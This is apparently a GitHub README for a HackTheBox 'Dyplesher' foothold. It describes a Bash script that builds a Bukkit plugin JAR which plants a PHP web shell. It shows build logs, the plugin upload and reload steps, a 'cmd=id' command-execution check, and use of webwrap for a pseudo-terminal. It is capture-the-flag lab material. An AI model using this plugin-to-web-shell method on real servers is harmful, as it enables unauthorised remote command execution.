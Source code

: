 # HTB-Dyplesher :alien:
# Warning message
**This is _not_ a complete write-up for the Dyplesher (10.10.10.190), box always active (27-09-2020), just a small nudge for the foothold part.**

**I developed this Bash script and use these files because I didn't want to depend/use on a heavy Integrated Development Environment (IDE).**
# Description
Ceate a Bukkit plugin without using an IDE. This is a simple build script written in Bash to create your Java archive data (JAR) from a Linux platform.

The JAR file will create a PHP web shell.

I used it on the box Dyplesher from HackTheBox platform to obtain the first "pseudo" shell on the box.

(source: https://bukkit.org/threads/creating-plugin-without-an-ide.136603/page-2)
# Usage/Installation
Unzip the zip file and execute the Bash script:
```
git clone https://github.com/choupit0/HTB-Dyplesher.git
cd HTB-Dyplesher
unzip payload.zip
cd payload/
./Compile.sh
```
# Logs

```
root@HTB:~# git clone https://github.com/choupit0/HTB-Dyplesher.git
Cloning into 'HTB-Dyplesher'...
remote: Enumerating objects: 6, done.
remote: Counting objects: 100% (6/6), done.
remote: Compressing objects: 100% (5/5), done.
remote: Total 6 (delta 0), reused 0 (delta 0), pack-reused 0
Unpacking objects: 100% (6/6), 17.05 MiB | 4.38 MiB/s, done.
```

```
root@HTB:~# cd HTB-Dyplesher/
root@HTB:~/HTB-Dyplesher# unzip payload.zip
Archive:  payload.zip
   creating: payload/
   creating: payload/htb/
   creating: payload/htb/dyplesher/
   creating: payload/htb/dyplesher/plugin/
  inflating: payload/htb/dyplesher/plugin/CreateFile.java
   creating: payload/lib/
  inflating: payload/lib/spigot-1.8.jar
   creating: payload/bin/
   creating: payload/bin/htb/
   creating: payload/bin/htb/dyplesher/
   creating: payload/bin/htb/dyplesher/plugin/
  inflating: payload/Compile.sh
   creating: payload/src/
  inflating: payload/src/plugin.yml
```

```
root@HTB:~/HTB-Dyplesher# tree
.
├── payload
│   ├── bin
│   │   └── htb
│   │       └── dyplesher
│   │           └── plugin
│   ├── Compile.sh
│   ├── htb
│   │   └── dyplesher
│   │       └── plugin
│   │           └── CreateFile.java
│   ├── lib
│   │   └── spigot-1.8.jar
│   └── src
│       └── plugin.yml
├── payload.zip
└── README.md

10 directories, 6 files
```

```
root@HTB:~/HTB-Dyplesher# cd payload/
root@HTB:~/HTB-Dyplesher/payload# ./Compile.sh
added manifest
adding: htb/(in = 0) (out= 0)(stored 0%)
adding: htb/dyplesher/(in = 0) (out= 0)(stored 0%)
adding: htb/dyplesher/plugin/(in = 0) (out= 0)(stored 0%)
adding: htb/dyplesher/plugin/CreateFile.class(in = 1410) (out= 847)(deflated 39%)
adding: plugin.yml(in = 187) (out= 146)(deflated 21%)
```

Our JAR file named "createfile.jar" has been created:
```
root@HTB:~/HTB-Dyplesher/payload# tree
.
├── bin
│   ├── htb
│   │   └── dyplesher
│   │       └── plugin
│   │           └── CreateFile.class
│   └── plugin.yml
├── Compile.sh
├── createfile.jar
├── htb
│   └── dyplesher
│       └── plugin
│           └── CreateFile.java
├── lib
│   └── spigot-1.8.jar
└── src
    └── plugin.yml

9 directories, 7 files
```
# Obtaining a "pseudo" shell
Put in your hosts file: dyplesher.htb + [subdomain].dyplesher.htb = 10.10.10.190

Once you have you JAR file, add the plugin and reload it on the web interface:

http://dyplesher.htb/home/add
http://dyplesher.htb/home/reload

Then, check you can launch a PHP command:

http://[subdomain].dyplesher.htb/batman.php?cmd=id

uid=1001([user]) gid=1001([user]) groups=1001([user]),122([group])

Finally, install this great tool:

https://github.com/mxrch/webwrap

With your web shell you will be able to simulate a terminal:

```
root@HTB:~/HTB/Dyplesher/webwrap# ./webwrap http://[subdomain].dyplesher.htb/batman.php?cmd=WRAP

[user]@dyplesher:/var/www/[subdomain]$ ls
README.md
batman.php
index.php
```

I let you imagine the rest, no spoilers here ;)
